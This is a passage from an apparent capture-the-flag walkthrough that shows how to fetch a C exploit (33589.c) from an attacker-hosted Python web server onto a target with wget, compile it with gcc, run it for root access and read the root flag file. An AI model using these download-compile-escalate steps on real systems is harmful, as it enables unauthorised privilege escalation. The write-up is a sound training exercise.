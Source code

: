 For Python 2.x we'll use `python -m SimpleHTTPServer 8088`.
For Python 3.x we'll use `python3 -m http.server`.

We can access the C file from our target using active shell session. It's best to first change into a directory we're sure we have execution permission. For example - `cd /tmp`.

Now pull the file using `wget http://10.0.0.4:8088/33589.c` command to download the file. Make sure you specify the relevant port according to the one provided in the Python script

```console
--2020-06-15 15:47:58--  http://10.0.0.4:8088/33589.c
Connecting to 10.0.0.4:8088... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3664 (3.6K) [text/plain]
Saving to: `33589.c'

     0K ...                                                   100%  861M=0s

2020-06-15 15:47:58 (861 MB/s) - `33589.c' saved [3664/3664]
```

Now we need to [compile](https://en.wikipedia.org/wiki/Compiler) this C file into an executable file to run on the target machine. [gcc](https://gcc.gnu.org/) is a simple to use compiler installed on almost every Linux distribution:
`gcc 33589.c -O2 -o ./exploit` where:
* `-O2` is Uppercase O and the number 2
* `-o` for the output file and we provide the required location and file name.
I've encountered the following error:
`gcc: error trying to exec 'cc1': execvp: No such file or directory`
Quick Google search revels we're not the first to encounter this issue and a quick fix is to run the following command which adds the gcc required PATH:
`export PATH=/usr/lib/gcc/x86_64-linux-gnu/4.6:$PATH`
Re-run the `gcc` command and now there's no output, which means, in our case, the command finished with no errors. Quick `ls` command reveals the new executable (called "exploit"):
```console
33589.c
KnQrX
exploit
vmIxd
```

Now we can execute it, providing "localhost" parameter as this is the host we want to exploit:
`./exploit localhost`

[`whoami`](https://en.wikipedia.org/wiki/Whoami) command verifies we now have root access. Last step is to get the flag from `/root` path:
```console
$ cat /root/root.txt
[REDUCTED]
```


# Summary
* Pay attention to small details such as the CVE number in the HTTP header.
* Google-Fu - Google is a great source of knowledge once (not if!) you face an issue.